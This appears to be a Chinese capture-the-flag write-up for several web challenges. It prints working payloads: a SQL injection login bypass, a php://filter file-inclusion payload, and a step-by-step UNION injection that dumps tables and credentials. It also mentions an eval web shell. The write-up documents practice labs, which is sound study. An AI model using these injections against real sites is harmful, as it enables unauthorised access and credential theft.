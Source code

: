 #EasySQL

简单的万能密码

害我搞那么久都搞不出来

	?username=1' or '1'='1&password=1' or '1'=1 #

#Havefun

 <!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
        -->
	?cat=dog

#Secret File

F12然后访问 ./Archive_room.php

继续访问./action.php

提示返回看看，直接准备抓包，拿到源码：（差点以为拿到flag了）

<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>

	?file=php://filter/convert.base64-encode/resource=flag.php

#LoveSQL

走流程，猜字段名：

	/check.php?username=admin' order by 3%23&password=1 #yep
	/check.php?username=admin' order by 4%23&password=1 #nonono

union联合查询测试注入点：

	/check.php?username=1' union select 1,2,3%23&password=1

爆数据库名和表名：

	/check.php?username=1' union select 1,database(),version()%23&password=1
	/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1

爆字段：

	/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1

拿flag：

	/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1

#Knife

eval(#_POST["syc"];

没打这个比赛，但是总感觉这个太简单了吧。。。

直接拿工具连接就行，还提示你一下。


